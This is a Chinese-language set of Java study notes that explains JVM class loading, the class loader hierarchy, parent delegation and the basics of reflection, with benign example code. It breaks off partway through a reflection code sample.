



# java安全

## 类加载：

### 类加载基本定义：

当程序主动使用某个类时，如果该类还未被加载到内存中，则JVM会通过加载、连接、初始化3个步骤来对该类进行初始化。如果没有意外，JVM将会连续完成3个步骤，所以有时也把这个3个步骤统称为[类加载](https://so.csdn.net/so/search?q=类加载&spm=1001.2101.3001.7020)或类初始化。


Java是一个依赖于`JVM`（Java虚拟机）实现的跨平台的开发语言。Java程序在运行前需要先编译成`class文件`，Java类初始化的时候会调用`java.lang.ClassLoader`加载类字节码，`ClassLoader`会调用JVM的native方法（`defineClass0/1/2`）来定义一个`java.lang.Class`实例。


类的生命周期：


### 类加载过程解析：

加载:java将文件汇编为二进制文件，并且将类的字节码文件加载到内存中

解析：解析是将符号引用转换为直接引用，可以理解为是将类中的符号引用翻译成了实际的内存地址，使得程序可以直接访问到所需的对象。

初始化：初始化是为类的静态变量赋初值并执行静态代码块，使内存空间的有自己的初始值，使系统可以分辨


#### 加载：

**加载指的是将类的class文件读入到内存，并为之创建一个java.lang.Class对象**，也就是说，**当程序中使用任何类时，系统都会为之建立一个java.lang.Class对象**。

 类的加载由类加载器完成，类加载器通常由JVM提供，这些类加载器也是前面所有程序运行的基础，JVM提供的这些类加载器通常被称为系统类加载器。除此之外，开发者可以通过继承[ClassLoader](https://so.csdn.net/so/search?q=ClassLoader&spm=1001.2101.3001.7020)基类来创建自己的类加载器。

```
ClassLoader是java的核心组件，所有的class都是由ClassLoader进行加载的。ClassLoader负责通过个各种方式将Class信息的二进制数据流读入JVM内部，转换为一个与目标类对应的java.lang.Class对象实例，然后交给虚拟机进行链接、初始化等操作。
```

 通过使用不同的类加载器，可以从不同来源加载类的二进制数据，通常有如下几种来源。

1. 从本地文件系统加载class文件，这是前面绝大部分示例程序的类加载方式。
2. 从JAR包加载class文件，这种方式也是很常见的，前面介绍JDBC编程时用到的数据库驱动类就放在JAR文件中，JVM可以从JAR文件中直接加载该class文件。
3. 通过网络加载class文件。
4. 把一个Java源文件动态编译，并执行加载。

类加载器通常无须等到“首次使用”该类时才加载该类，Java虚拟机规范允许**系统预先加载某些类**。

#### 链接：

**当类被加载之后，系统为之生成一个对应的Class对象，接着将会进入连接阶段，连接阶段负责把类的二进制数据合并到JRE中**。类连接又可分为如下3个阶段。

1、验证）：

验证阶段用于检验被加载的类是否有正确的内部结构，并和其他类协调一致。Java是相对C++语言是安全的语言，例如它有C++不具有的数组越界的检查。这本身就是对自身安全的一种保护。

验证的目的在于确保Class文件的字节流中包含信息符合当前虚拟机要求，不会危害虚拟机自身安全。其主要包括四种验证，文件格式验证，元数据验证，字节码验证，符号引用验证。

其中四种验证方式的说明：

  文件格式验证：主要验证字节流是否符合Class文件格式规范，并且能被当前的虚拟机加载处理。例如：主，次版本号是否在当前虚拟机处理的范围之内。常量池中是否有不被支持的常量类型。指向常量的中的索引值是否存在不存在的常量或不符合类型的常量。

 元数据验证：对字节码描述的信息进行语义的分析，分析是否符合java的语言语法的规范。
    

        字节码验证：最重要的验证环节，分析数据流和控制，确定语义是合法的，符合逻辑的。主要的针对元数据验证后对方法体的验证。保证类方法在运行时不会有危害出现。
    
        符号引用验证：主要是针对符号引用转换为直接引用的时候，是会延伸到第三解析阶段，主要去确定访问类型等涉及到引用的情况，主要是要保证引用一定会被访问到，不会出现类等无法访问的问题。

2、准备）：

类准备阶段负责为类的静态变量分配内存，并设置默认初始值。

3、解析）：

将类的二进制数据中的符号引用替换成直接引用。说明一下：符号引用：符号引用是以一组符号来描述所引用的目标，符号可以是任何的字面形式的字面量，只要不会出现冲突能够定位到就行。布局和内存无关。直接引用：是指向目标的指针，偏移量或者能够直接定位的句柄。该引用是和内存中的布局有关的，并且一定加载进来的。

### 初始化：

**初始化是为类的静态变量赋予正确的初始值**，准备阶段和初始化阶段看似有点矛盾，其实是不矛盾的，如果类中有语句：private static int a = 10，它的执行过程是这样的，首先字节码文件被加载到内存后，先进行链接的验证这一步骤，验证通过后准备阶段，给a分配内存，因为变量a是static的，所以此时a等于int类型的默认初始值0，即a=0,然后到解析（后面在说），到初始化这一步骤时，才把a的真正的值10赋给a,此时a=10

案例：

```
假设正在编写一个Java程序，其中一个类名为MyClass，它有一个静态变量staticVar。

加载阶段：当你在代码中首次引用MyClass类时，类加载器会负责加载这个类。它首先通过类的全路径名称获取类的二进制数据流，然后解析这些数据流，将其转化为方法区（永久代或元空间）内部的数据结构。最后创建一个java.lang.Class类的实例对象，表示MyClass类型。

连接阶段：在这个阶段，类加载器会进行三个子阶段的工作：验证、准备和解析。

验证阶段：类加载器会检查类文件是否正确，例如检查类的版本、类的魔术因子（魔数）是否正确等。如果类文件有问题，验证阶段就会失败，Java虚拟机会抛出异常。
准备阶段：在这个阶段，类加载器会为MyClass类中的静态变量staticVar分配内存，并且为其初始化默认值（例如，对于整型变量，默认值为0；对于引用类型变量，默认值为null等）。
解析阶段：在这个阶段，类加载器会把类中的符号引用转换为直接引用。符号引用是指在类中引用另一个类的成员（例如方法或变量）时使用的名称，而直接引用是指具体的内存地址或对象实例。
初始化阶段：当程序首次使用MyClass类时，类加载器会进行初始化操作。具体来说，它会为类的静态变量赋予正确的初始值（即你在代码中给定的值）。在这个案例中，如果staticVar的初始值是5，那么在初始化阶段结束后，staticVar的值就会被设置为5。
```


## 类加载时机：

1. **创建类的实例，也就是new一个对象**
2. **访问某个类或接口的静态变量，或者对该静态变量赋值**
3. **调用类的静态方法**
4. **反射（Class.forName("com.lyj.load")）**
5. **初始化一个类的子类（会首先初始化子类的父类）**
6. **JVM启动时标明的启动类，即文件名和类名相同的那个类**  

特定情况：

   对于一个final类型的静态变量，如果该变量的值在编译时就可以确定下来，那么这个变量相当于“宏变量”。Java编译器会在编译时直接把这个变量出现的地方替换成它的值，因此即使程序使用该静态变量，也不会导致该类的初始化。反之，如果final类型的静态Field的值不能在编译时确定下来，则必须等到运行时才可以确定该变量的值，如果通过该类来访问它的静态变量，则会导致该类被初始化。


## 类加载器：

类加载器负责加载所有的类，其为所有被载入内存中的类生成一个java.lang.Class实例对象。一旦一个类被加载如JVM中，同一个类就不会被再次载入了。正如一个对象有一个唯一的标识一样，一个载入JVM的类也有一个唯一的标识。在Java中，一个类用其全限定类名（包括包名和类名）作为标识；但在JVM中，一个类用其全限定类名和其类加载器作为其唯一标识。例如，如果在pg的包中有一个名为Person的类，被类加载器ClassLoader的实例kl负责加载，则该Person类对应的Class对象在JVM中表示为(Person.pg.kl)。这意味着两个类加载器加载的同名类：（Person.pg.kl）和（Person.pg.kl2）是不同的、它们所加载的类也是完全不同、互不兼容的。

### 三种类加载器：（classloader）

解析：classloader是Java虚拟机中的一个重要组成部分，它负责将Java类加载到内存中。在Java中，类的加载是动态的，也就是说，当程序需要使用某个类时，classloader会在内存中查找该类是否已经被加载，如果没有被加载，则会通过classloader将该类加载到内存中。                   

Java中有三种类加载器：**BoostrapClassLoader、ExtClassLoader和AppClassLoader**，它们分别负责加载不同的类。其中，BoostrapClassLoader是最顶层的类加载器，它负责加载Java核心类库，而ExtClassLoader和AppClassLoader则负责加载应用程序中的类。另外，classloader还实现了双亲委托机制，即当一个类需要被加载时，classloader会先将该任务委托给其父类加载器，如果父类加载器无法加载该类，则再由该classloader自己来加载。这种机制可以保证Java类的安全性和稳定性。

1、根类加载器）BoostrapClassLoader：

类加载器负责加载所有的类，其为所有被载入内存中的类生成一个java.lang.Class实例对象。一旦一个类被加载如JVM中，同一个类就不会被再次载入了。正如一个对象有一个唯一的标识一样，一个载入JVM的类也有一个唯一的标识。在Java中，一个类用其全限定类名（包括包名和类名）作为标识；但在JVM中，一个类用其全限定类名和其类加载器作为其唯一标识。例如，如果在pg的包中有一个名为Person的类，被类加载器ClassLoader的实例kl负责加载，则该Person类对应的Class对象在JVM中表示为(Person.pg.kl)。这意味着两个类加载器加载的同名类：（Person.pg.kl）和（Person.pg.kl2）是不同的、它们所加载的类也是完全不同、互不兼容的。

下面程序可以获得根类加载器所加载的核心类库,并会看到本机安装的Java环境变量指定的jdk中提供的核心jar包路径：

```
public class ClassLoaderTest {
 
	public static void main(String[] args) {
		
		URL[] urls = sun.misc.Launcher.getBootstrapClassPath().getURLs();
		for(URL url : urls){
			System.out.println(url.toExternalForm());
		}
	}
}
```

运行结果：


2、扩展类加载器）ExtClassLoader和：

（extensions class loader）：它负责加载JRE的扩展目录，lib/ext或者由java.ext.dirs系统属性指定的目录中的JAR包的类。由Java语言实现，父类加载器为null。

3、系统类加载器）AppClassLoader：

被称为系统（也称为应用）类加载器，它负责在JVM启动时加载来自Java命令的-classpath选项、java.class.path系统属性，或者CLASSPATH换将变量所指定的JAR包和类路径。程序可以通过ClassLoader的静态方法getSystemClassLoader()来获取系统类加载器。如果没有特别指定，则用户自定义的类加载器都以此类加载器作为父加载器。由Java语言实现，父类加载器为ExtClassLoader。

类加载器加载Class大致要经过如下8个步骤：

1. 检测此Class是否载入过，即在缓冲区中是否有此Class，如果有直接进入第8步，否则进入第2步。
2. 如果没有父类加载器，则要么Parent是根类加载器，要么本身就是根类加载器，则跳到第4步，如果父类加载器存在，则进入第3步。
3. 请求使用父类加载器去载入目标类，如果载入成功则跳至第8步，否则接着执行第5步。
4. 请求使用根类加载器去载入目标类，如果载入成功则跳至第8步，否则跳至第7步。
5. 当前类加载器尝试寻找Class文件，如果找到则执行第6步，如果找不到则执行第7步。
6. 从文件中载入Class，成功后跳至第8步。
7. 抛出ClassNotFountException异常。
8. 返回对应的java.lang.Class对象。


##### `ClassLoader`类有如下核心方法：

1. `loadClass`（加载指定的Java类）
2. `findClass`（查找指定的Java类）
3. `findLoadedClass`（查找JVM已经加载过的类）
4. `defineClass`（定义一个Java类）
5. `resolveClass`（链接指定的Java类）


### 类加载机制：

1.JVM的类加载机制主要有如下3种。

全盘负责：所谓全盘负责，就是当一个类加载器负责加载某个Class时，该Class所依赖和引用其他Class也将由该类加载器负责载入，除非显示使用另外一个类加载器来载入。
双亲委派：所谓的双亲委派，则是先让父类加载器试图加载该Class，只有在父类加载器无法加载该类时才尝试从自己的类路径中加载该类。通俗的讲，就是某个特定的类加载器在接到加载类的请求时，首先将加载任务委托给父加载器，依次递归，如果父加载器可以完成类加载任务，就成功返回；只有父加载器无法完成此加载任务时，才自己去加载。
缓存机制。缓存机制将会保证所有加载过的Class都会被缓存，当程序中需要使用某个Class时，类加载器先从缓存区中搜寻该Class，只有当缓存区中不存在该Class对象时，系统才会读取该类对应的二进制数据，并将其转换成Class对象，存入缓冲区中。这就是为很么修改了Class后，必须重新启动JVM，程序所做的修改才会生效的原因。

双亲委派机制:


**双亲委派机制，其工作原理的是，如果一个类加载器收到了类加载请求，它并不会自己先去加载，而是把这个请求委托给父类的加载器去执行，如果父类加载器还存在其父类加载器，则进一步向上委托，依次递归，请求最终将到达顶层的启动类加载器，如果父类加载器可以完成类加载任务，就成功返回，倘若父类加载器无法完成此加载任务，子加载器才会尝试自己去加载，这就是双亲委派模式，即每个儿子都很懒，每次有活就丢给父亲去干，直到父亲说这件事我也干不了时，儿子自己才想办法去完成。**

 双亲委派机制的优势：采用双亲委派模式的是好处是Java类随着它的类加载器一起具备了一种带有优先级的层次关系，通过这种层级关可以避免类的重复加载，当父亲已经加载了该类时，就没有必要子ClassLoader再加载一次。其次是考虑到安全因素，java核心api中定义类型不会被随意替换，假设通过网络传递一个名为java.lang.Integer的类，通过双亲委托模式传递到启动类加载器，而启动类加载器在核心Java API发现这个名字的类，发现该类已被加载，并不会重新加载网络传递的过来的java.lang.Integer，而直接返回已加载过的Integer.class，这样便可以防止核心API库被随意篡改。


### java类加载方式：

解析：

**Java中的类加载方式分为隐式加载和显示加载两种。隐式加载指的是程序在使用new关键词创建对象时，会隐式的调用类的加载器把对应的类加载到JVM中。而显示加载则是通过直接调用class.forName（）方法来把所需的类加载到JVM中。**

简单来说，**隐式加载是在程序运行时自动加载类，而显示加载则是在代码中明确指定要加载的类**。

常用的类动态加载方式：

反射：

```
try {  
    // 获取 Class 对象  
    Class<?> clazz = Class.forName("com.example.MyClass");  
      
    // 创建类的实例  
    Object instance = clazz.getDeclaredConstructor().newInstance();  
      
    // 使用实例化对象进行后续操作  
    // ...  
} catch (ClassNotFoundException | NoSuchMethodException | IllegalAccessException | InstantiationException | InvocationTargetException e) {  
    e.printStackTrace();  
}
```

在上述代码中，我们使用 `Class.forName()` 方法获取指定类的 `Class` 对象。然后，通过调用 `getDeclaredConstructor()` 方法获取默认构造函数，并使用 `newInstance()` 方法创建类的实例。

使用类加载器：

类加载器是负责将类文件从文件系统或其他来源加载到 JVM 中的组件。使用自定义类加载器，您可以实现更灵活的类加载机制。

案例：动态加载一个名为 "com.example.MyClass" 的类。

```
try {  
    // 创建自定义类加载器  
    URLClassLoader classLoader = new URLClassLoader(new URL[]{new File("path/to/classes").toURI().toURL()});  
      
    // 获取 Class 对象  
    Class<?> clazz = classLoader.loadClass("com.example.MyClass");  
      
    // 创建类的实例  
    Object instance = clazz.getDeclaredConstructor().newInstance();  
      
    // 使用实例化对象进行后续操作  
    // ...  
} catch (IOException | NoSuchMethodException | IllegalAccessException | InstantiationException | InvocationTargetException e) {  
    e.printStackTrace();  
}
```

在上述代码中，我们创建了一个自定义的 `URLClassLoader` 类加载器，并将其指向包含所需类的目录。然后，通过调用 `loadClass()` 方法加载指定类，并使用与前面相同的方式创建类的实例。


### classloader类加载流程：

一个简单的案例：

```
public class ClassLoaderDemo {  
    public static void main(String[] args) {  
        MyClass myClass = new MyClass();  
        System.out.println(myClass.staticVar);  
    }  
}  
  
class MyClass {  
    public static int staticVar = 10;  
}
```

在这个代码案例中，我们定义了一个`MyClass`类，其中有一个静态变量`staticVar`，初始值为10。在`main`方法中，我们创建了一个`MyClass`类的实例，并通过访问`staticVar`打印出其值。

当程序运行时，类加载器会负责加载`MyClass`类。首先，类加载器会通过类的全路径名称获取`MyClass`类的二进制数据流，然后解析这些数据流，将其转化为方法区（永久代或元空间）内部的数据结构。最后创建一个`java.lang.Class`类的实例对象，表示`MyClass`类型。

在连接阶段，类加载器会进行三个子阶段的工作：验证、准备和解析。验证阶段会检查类文件是否正确，准备阶段会为`MyClass`类中的静态变量`staticVar`分配内存并初始化默认值（这里是0），解析阶段会将符号引用转换为直接引用。

最后，当程序首次使用`MyClass`类时，类加载器进行初始化阶段。具体来说，它会为类的静态变量赋予正确的初始值（即10）。因此，当我们创建`MyClass`类的实例并访问`staticVar`时，其值为10。


### classloader自定义：

案例解析：

```java
public class CustomClassLoader extends ClassLoader {  
    public CustomClassLoader(ClassLoader parent) {  
        super(parent);  //super（）用法：super()只能出现在构造方法的第一行，通过当前的构造方法去调用“父类”中的对应的构造方法，目的是：创建子类对象时，先初始化父类型特征。super代表的是父类型特征；没写时系统  会默认加上，super（）；
    }  
  
    @Override  
    protected Class<?> findClass(String name) throws ClassNotFoundException {  //父类classloader中有一哥findclass方法，所以重写
        byte[] data = loadClassData(name); // 加载类的字节码数据  
        return defineClass(name, data, 0, data.length); // 定义类  
    }  
  
    private byte[] loadClassData(String name) {  
        // 从文件系统或其他来源加载类的字节码数据  
        // 这里只是一个简单的示例，实际实现可能会有所不同  
        return new byte[0];  
    }  
}
```

在这个代码案例中，我们定义了一个名为`CustomClassLoader`的自定义类加载器，它继承自`ClassLoader`类。在构造函数中，我们通过调用`super(parent)`来传递父类加载器。

在`findClass`方法中，我们首先调用`loadClassData`方法来加载类的字节码数据。这里只是一个简单的示例，实际实现可能会有所不同，比如从文件系统或其他来源获取类的字节码数据。然后，我们使用`defineClass`方法来定义类，将字节码数据加载到方法区（永久代或元空间）中。

需要注意的是，自定义类加载器需要遵循双亲委派模型（Parent Delegation Model），即先让父类加载器加载类，如果父类加载器无法加载该类，则由自定义类加载器加载。因此，在上面的代码中，我们调用`super.findClass(name)`来让父类加载器先尝试加载类。如果父类加载器无法加载该类，则会抛出`ClassNotFoundException`异常，此时我们可以通过调用`findClass`方法来让自定义类加载器加载该类。

案例：

```java
package myJavaSecurity;


import java.lang.reflect.Method;

public class TestClassLoader extends ClassLoader {
    // TestHelloWorld类名
    public static String testClassName = "myJavaSecurity.TestHelloWorld";

    //TestHelloWorld类的字节码
    private static final byte[] testClassBytes = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 51, 0, 17, 10, 0, 4, 0, 13, 8, 0, 14, 7, 0, 15, 7, 0,
            16, 1, 0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
            101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108, 101,
            1, 0, 5, 104, 101, 108, 108, 111, 1, 0, 20, 40, 41, 76, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114, 99,
            101, 70, 105, 108, 101, 1, 0, 19, 84, 101, 115, 116, 72, 101, 108, 108, 111, 87, 111,
            114, 108, 100, 46, 106, 97, 118, 97, 12, 0, 5, 0, 6, 1, 0, 12, 72, 101, 108, 108, 111,
            32, 87, 111, 114, 108, 100, 126, 1, 0, 40, 99, 111, 109, 47, 97, 110, 98, 97, 105, 47,
            115, 101, 99, 47, 99, 108, 97, 115, 115, 108, 111, 97, 100, 101, 114, 47, 84, 101, 115,
            116, 72, 101, 108, 108, 111, 87, 111, 114, 108, 100, 1, 0, 16, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0, 3, 0, 4, 0, 0, 0, 0, 0, 2, 0, 1,
            0, 5, 0, 6, 0, 1, 0, 7, 0, 0, 0, 29, 0, 1, 0, 1, 0, 0, 0, 5, 42, -73, 0, 1, -79, 0, 0, 0,
            1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 7, 0, 1, 0, 9, 0, 10, 0, 1, 0, 7, 0, 0, 0, 27, 0, 1,
            0, 1, 0, 0, 0, 3, 18, 2, -80, 0, 0, 0, 1, 0, 8, 0, 0, 0, 6, 0, 1, 0, 0, 0, 10, 0, 1, 0, 11,
            0, 0, 0, 2, 0, 12
    };

    @Override
    public Class<?> findClass(String name) throws ClassNotFoundException {
        // 只处理TestHelloWorld类
        if (name.equals(testClassName)) {
            // 调用JVM的native方法定义TestHelloWorld类
            return defineClass(testClassName, testClassBytes, 0, testClassBytes.length);//返回整个文件内容
        }//因为继承才可以重新findclass方法，所以才能匹配然后修改整个文件内容，将testclassbytes替换原有的字节码

        //其他类通过super关键字调用父类的findClass方法
        return super.findClass(name);
    }

    public static void main(String[] args) {
        //创建自定义类加载器
        TestClassLoader loader = new TestClassLoader();

        try{
            //使用自定义的类加载器”loader“中的loadClass加载TestHelloWorld类到testClass变量
            Class testClass = loader.loadClass(testClassName);

            //反射创建TestHelloWorld类，等价于”TestHelloWorld t = new TestHelloWorld();“
            Object testInstance = testClass.newInstance();

            //反射获取hello方法
            Method method = testInstance.getClass().getMethod("hello");


            //反射调用hello方法，等价于”String str = t.hello();“
            String str = (String) method.invoke(testInstance);

            System.out.println(str);

        }catch (Exception e){
            e.printStackTrace();
        }
    }
}
```

```java
package myJavaSecurity;

    public class TestHelloWorld {
        public String hello() {
            try {
                this.getClass().getClassLoader().loadClass("myJavaSecurity.TestHelloWorld");
            } catch (Exception var2) {
                var2.printStackTrace();
            }

            return "Hello World~3";
        }
    }


```


### URL classloader：

URLClassLoader是Java提供的用于加载URL路径下类的类加载器。在URLClassLoader中，我们可以添加多个URL路径，它会在这些路径下搜索类。

```
import java.net.URL;  
import java.net.URLClassLoader;  
import java.lang.reflect.Method;  
  
public class Main {  
    public static void main(String[] args) throws Exception {  
        // 创建URL数组，这些URL代表了类的存储路径  
        URL[] urls = new URL[]{new URL("file:/path/to/your/classes/")};  
        // 创建URLClassLoader  
        URLClassLoader loader = new URLClassLoader(urls);  
        // 使用URLClassLoader加载类，这里假设我们要加载名为"MyClass"的类  
        Class<?> clazz = loader.loadClass("MyClass");  
        // 获取MyClass类的实例  
        Object instance = clazz.newInstance();  
        // 调用MyClass的main方法  
        Method method = clazz.getMethod("main", String[].class);  
        method.invoke(instance, (Object) new String[]{});  
    }  
}
```

这个例子首先创建了一个代表类文件存储路径的URL数组，然后使用这些URL创建了一个URLClassLoader。然后，我们使用URLClassLoader加载了一个名为"MyClass"的类，并创建了该类的一个实例，最后调用了该类的main方法。


### 类加载隔离：

解析：

类加载隔离是一种通过类加载器实现加载所需类的实现方式，使得不同版本类间隔离，避免了使用冲突问题。

简单来说，类加载隔离是一种保护机制，它防止了不同版本的类在同一个 JVM 中产生冲突。这种机制的实现方式是通过使用类加载器来实现的，不同的类加载器可以加载不同版本的类。这样，即使有两个类名相同但版本不同的类，也可以通过不同的类加载器加载，从而避免了冲突。

例如，在业务服务A和业务服务B中，两者都依赖消息中间件，但所引用版本不一致。如果未使用类加载隔离，只有一个版本会被加载到JVM中，这可能会导致出现 NoSuchMethodError 或 NoSuchClassError 等问题。而通过类加载隔离，可以将不同版本的类加载到不同的类加载器中，从而解决了这个问题。


### 跨类加载器加载：

解析：跨类加载器加载是指使用跨类加载器来加载类的方式。跨类加载器是一种特殊的类加载器，它能够加载指定类名的类，并且可以应用到任意可能存在安全风险的类中。

在Java中，类加载器负责将类的字节码文件加载到方法区（永久代或元空间）中，并将其转换为对应的Java类。而跨类加载器则可以加载不同类加载器加载的类。例如，如果一个类已经被某个类加载器加载过，那么其他类加载器也可以加载这个类，只是它们加载的是完全不同的对象。

跨类加载器在Java中主要有以下应用场景：

1. 动态类加载：在运行时动态地加载一个类，例如使用反射或者动态代理来加载一个类。
2. 扩展机制：在Java中，可以通过扩展机制来扩展应用程序的功能。扩展机制使用自定义的类加载器来加载扩展类，从而避免了Java的核心类库被修改的问题。
3. OSGi：OSGi是一种Java模块化技术，它使用多个独立的模块来构建一个应用程序。在OSGi中，每个模块都有自己的类加载器，从而实现了模块之间的隔离和动态更新。

代码案例：

```
import java.lang.reflect.Method;  
  
public class CrossClassLoaderExample {  
    public static void main(String[] args) throws Exception {  
        // 创建两个类加载器  
        ClassLoader loader1 = new ClassLoader() {  
            protected Class<?> findClass(String name) throws ClassNotFoundException {  
                if (name.equals("MyClass")) {  
                    byte[] data = loadClassData(name);  
                    return defineClass(name, data, 0, data.length);  
                } else {  
                    return super.findClass(name);  
                }  
            }  
        };  
        ClassLoader loader2 = new ClassLoader() {  
            protected Class<?> findClass(String name) throws ClassNotFoundException {  
                if (name.equals("MyClass")) {  
                    byte[] data = loadClassData(name);  
                    return defineClass(name, data, 0, data.length);  
                } else {  
                    return super.findClass(name);  
                }  
            }  
        };  
        // 加载MyClass类  
        Class<?> clazz1 = loader1.loadClass("MyClass");  
        Class<?> clazz2 = loader2.loadClass("MyClass");  
        // 调用MyClass的main方法  
        Method method = clazz1.getMethod("main", String[].class);  
        method.invoke(clazz1.newInstance(), (Object) new String[]{});  
        method = clazz2.getMethod("main", String[].class);  
        method.invoke(clazz2.newInstance(), (Object) new String[]{});  
    }  
    private static byte[] loadClassData(String name) throws IOException {  
        // 从文件系统或其他来源加载类的字节码数据，这里假设MyClass类的字节码文件名为"MyClass.class"  
        InputStream inputStream = CrossClassLoaderExample.class.getClassLoader().getResourceAsStream("MyClass.class");  
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();  
        int data = inputStream.read();  
        while (-1 != data) {  
            byteArrayOutputStream.write(data);  
            data = inputStream.read();  
        }  
        byte[] bytes = byteArrayOutputStream.toByteArray();  
        return bytes;  
    }  
}
```

在这个例子中，我们创建了两个自定义的类加载器 `loader1` 和 `loader2`，它们都实现了 `findClass` 方法，用于加载名为 "MyClass" 的类。我们使用 `loadClassData` 方法从文件系统中加载 "MyClass" 类的字节码数据，并使用 `defineClass` 方法将其转换为对应的 Java 类。然后，我们使用这两个类加载器分别加载 "MyClass" 类，并调用它们的 `main` 方法。

需要注意的是，虽然这两个类加载器都加载了名为 "MyClass" 的类，但是它们加载的是完全不同的对象。因此，在调用 `main` 方法时，我们使用了两个不同的对象实例。这就证明了跨类加载器的特点：即使类名相同，不同的类加载器加载的也是完全不同的对象。


### JSP自定类加载后门：


### JSP类加载：


##### tips：

1、**加载阶段，Java虚拟机规范中没有进行约束**。

**初始化阶段，Java虚拟机规范中有严格的约束**。


## 反射：

### 反射机制：

解析：

**Java反射机制是指在程序的运行状态中，可以构造任意一个类的对象，可以了解任意一个对象所属的类，可以了解任意一个类的成员变量和方法，可以调用任意一个对象的属性和方法。这种动态获取程序信息以及动态调用对象的功能称为Java语言的反射机制。**

反射机制极大的提高了程序的灵活性和扩展性，降低模块的耦合性，提高自身的适应能力。使用反射机制能够在运行时构造一个类的对象、判断一个类所具有的成员变量和方法、调用一个对象的方法。此外，反射机制是构建框架技术的基础所在，使用反射可以避免将代码写死在框架中。

### java获取class类对象：

解析：Java反射操作的是`java.lang.Class`对象，所以我们需要先想办法获取到Class对象

在Java中，获取Class类对象的方式有以下几种：

1. 使用Class类的forName()方法。这个方法将字节码文件加载进内存，并返回Class对象。例如，可以通过“cn.cwj.community.test.Student”这个**全类名**来获取Student类的Class对象。

   class.forName(cn.cwj.community.test.Student)

2. 通过对象的getClass()方法获取。这个方法适用于已经存在的对象，可以用来获取其Class对象。

3. 使用类名.class方式获取。这种方式不仅适用于引用类型，也适用于基本类型。

   cn.cwj.community.test.Student.class

   (类名.class是一种语法糖，它实际上是调用类名对应的Class对象。在Java中，每一个类都有一个隐含的成员变量，也就是对应的Class对象，可以通过类名.class来获取这个Class对象。)


### java反射获取实例化对象（object）：

几种方式：

在Java中，使用反射获取Object实例化对象的方式有以下几种：

1. 使用Class对象的newInstance()方法。这个方法会调用Object类的无参构造函数来创建实例。

2. 使用Class对象的getConstructor()方法获取Object类的构造器，然后调用构造器来创建实例。这种方式需要指定构造函数的参数类型和参数值。

3. 使用Class对象的getDeclaredConstructor()方法获取Object类的构造器，然后调用构造器来创建实例。这种方式可以获取到私有构造器，并且可以指定构造函数的参数类型和参数值。

4. 通过Object类的getClass()方法获取Class对象，然后使用Class对象的newInstance()方法创建实例。这种方式不需要实例化对象，直接通过Object类来获取Class对象并创建实例。

   案例：

5. ```
   package myJavaSecurity;
   
   import mxdx.phone;
   
   import java.lang.reflect.Constructor;
   import java.lang.reflect.InvocationTargetException;
   
   public class demo {
       public static void main(String[] args) throws ClassNotFoundException, InstantiationException, IllegalAccessException, NoSuchMethodException, InvocationTargetException {
           phone p = new phone();//构造器是为了初始化类，然后有了构造器后才可以传值（get set方法与其一样，写了在javabean类中才可以使用）
           //get set写出可以实现用户本身调用，构造器系统调用，不能实现用户本身调用
           System.out.println(p);
           
